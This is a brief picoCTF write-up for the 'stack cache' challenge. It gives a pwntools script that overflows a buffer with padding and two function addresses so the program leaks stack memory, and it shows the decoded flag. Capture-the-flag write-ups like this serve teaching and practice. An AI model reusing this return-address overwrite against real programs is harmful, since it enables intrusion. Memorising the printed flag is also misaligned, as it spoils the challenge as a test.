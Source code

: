 # stack cache

### Description
> Undefined behaviours are fun.

### Solution
By calling `win()` first and then `UnderConstruction()`,
can be leaked the stack.

```
win = 0x08049da0
uc = 0x08049e20 #UnderConstruction

io = remote(host, port)
#io = process(file)
io.sendlineafter("flag", b"A"*14 + p32(win) + p32(uc))

"""
User information : 0x80c9a04 0x804007d 0x39313139 0x32636335 0x5f597230 0x6d334d5f
Names of user: 0x50755f4e 0x34656c43 0x7b465443
Age of user: 0x6f636970

=> 7069636F 4354467B 436C6534 4E5F7550 5F4D336D 3072595F 35636332 39313139 7D
=> picoCTF{Cle4N_uP_M3m0rY_5cc29119}
"""

io.interactive()
```

### Writer
[yu1hpa](https://twitter.com/yu1hpa)

